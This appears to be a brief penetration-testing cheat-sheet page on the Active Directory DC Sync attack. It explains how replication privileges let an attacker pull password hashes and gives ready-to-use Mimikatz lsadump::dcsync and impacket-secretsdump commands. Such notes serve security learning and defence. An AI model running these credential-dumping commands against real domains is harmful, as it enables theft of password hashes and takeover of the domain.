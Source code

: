 # DC Sync

## Introduction

In Active Directory, domain controllers **replicate** data to stay synchronized, using the **DRS Remote Protocol** to request updates like user account changes.&#x20;

**DC Sync attack** exploits this process by impersonating a domain controller and **replicating** sensitive information, such as **password hashes**.

In order to perform DC Sync the following privileges are required:

* `DS-Replication-Get-Changes`
* `DS-Replication-Get-Changes-All`

These privileges often granted to **Domain Admins** or **Enterprise Admins.**

**DC Sync** attack allows the attacker to gain further access and launch attacks like **Golden Tickets**.

## Performing the attack

### Mimikatz

```
lsadump::dcsync /user:<user>
```

### Impacket

{% code overflow="wrap" %}
```bash
impacket-secretsdump <domain>/<username>:"<password>"@<ip_address>
```
{% endcode %}
